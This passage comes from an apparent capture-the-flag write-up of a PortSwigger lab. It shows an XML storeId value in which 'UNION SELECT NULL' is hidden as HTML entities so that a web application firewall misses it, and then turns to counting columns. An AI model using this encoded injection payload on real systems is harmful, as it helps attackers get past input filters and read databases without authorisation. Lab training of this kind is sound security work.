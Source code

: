**Let's copy and paste that to our payload!**
```xml
<storeId>1 &#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;</storeId>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211025935.png)

**As we can see, the `"Attack detected"` is gone, and we successfully triggered an SQL injection payload!**

**Let's find how many columns are there:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211030046.png)
